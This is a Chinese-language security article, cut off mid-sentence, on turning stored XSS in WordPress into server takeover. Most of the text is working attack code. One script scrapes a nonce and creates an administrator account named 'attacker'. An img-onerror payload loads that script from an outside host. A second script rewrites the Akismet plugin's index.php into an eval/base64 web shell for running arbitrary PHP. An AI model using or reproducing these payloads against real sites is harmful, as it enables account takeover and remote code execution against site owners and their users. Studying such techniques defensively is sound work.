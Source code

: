 （从xss到getshell） xss的深层次利用与探讨
=========================================

今天我们的网站上公布了大量的wp的xss，那么这篇文章就是深入探讨如何深入利用xss。

如果师傅们有什么新的思路或者姿势。可以通过邮箱联系我们进行讨论与交流

联系邮箱：ian\@lcx.cc

通过js文件添加wp系统管理员
--------------------------

### 1、创建管理账号

举个例子，攻击者可以在其Web服务器上托管JavaScript文件，例如wpaddadmin
\[.\]
js（在链接中描述）。此JavaScript代码将添加一个WordPress管理员帐户，其用户名为"
attacker"，密码为" attacker"。

    // Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
    var ajaxRequest = new XMLHttpRequest();  
    var requestURL = "/wordpress/wp-admin/user-new.php";  
    var nonceRegex = /ser" value="([^"]*?)"/g;  
    ajaxRequest.open("GET", requestURL, false);  
    ajaxRequest.send();  
    var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
    var nonce = nonceMatch[1];  

    // Construct a POST query, using the previously extracted 'nonce' value, and create a new user with an arbitrary username / password, as an Administrator  
    var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com&pass1=attacker&pass2=attacker&role=administrator";  
    ajaxRequest = new XMLHttpRequest();  
    ajaxRequest.open("POST", requestURL, true);  
    ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");  
    ajaxRequest.send(params);

然后，攻击者可以使用以下PoC插入JavaScript。

    “"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;”

### 图1.插入XSS代码以添加管理员帐户

![](./.resource/(从xss到getshell)xss的深层次利用与探讨/media/rId24.png)

具有高权限的受害者查看此帖子后，将创建管理员帐户"攻击者"。

### 图2. XSS代码被执行

![](./.resource/(从xss到getshell)xss的深层次利用与探讨/media/rId26.png)

### 图3. XSS代码创建的具有管理员权限的"攻击者"帐户

![](./.resource/(从xss到getshell)xss的深层次利用与探讨/media/rId28.png)

然后，攻击者可以将现有的php文件修改为Webshel​​l，并使用该Webshel​​l来控制Web服务器。

图4.使用攻击者的帐户添加一个Web Shell

![](./.resource/(从xss到getshell)xss的深层次利用与探讨/media/rId29.png)

图5.控制Web服务器

![](./.resource/(从xss到getshell)xss的深层次利用与探讨/media/rId30.png)

### 2、恶意命令执行

    // Send a GET request to the URL '/wp-admin/plugin-editor.php?akisment/index.php', and extract the current 'nonce' value
    var ajaxRequest = new XMLHttpRequest();
    var requestURL = "/wp-admin/plugin-editor.php?file=akismet/index.php"
    var nonceRegex = /ce" value="([^"]*?)"/g;
    ajaxRequest.open("GET", requestURL, false);
    ajaxRequest.send();
    var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
    var nonce = nonceMatch[1];

    // Construct a POST query, using the previously extracted 'nonce' value, and update the content of the file 'akismet/index.php' with our tiny web shell
    var params = "_wpnonce="+nonce+"&newcontent=<?php eval(base64_decode($_REQUEST['x']));&action=update&file=akismet/index.php"
    ajaxRequest = new XMLHttpRequest();
    ajaxRequest.open("POST", requestURL, true);
    ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    ajaxRequest.send(params);

一旦此XSS被管理用户触发，我们应该能够通过向脚本

<http://0-sec.org/wp-content/plugins/akismet/index.php>

发送GET / POST请求来执行任意PHP代码，其中参数" x"等于我们的PHP代码的"
base6
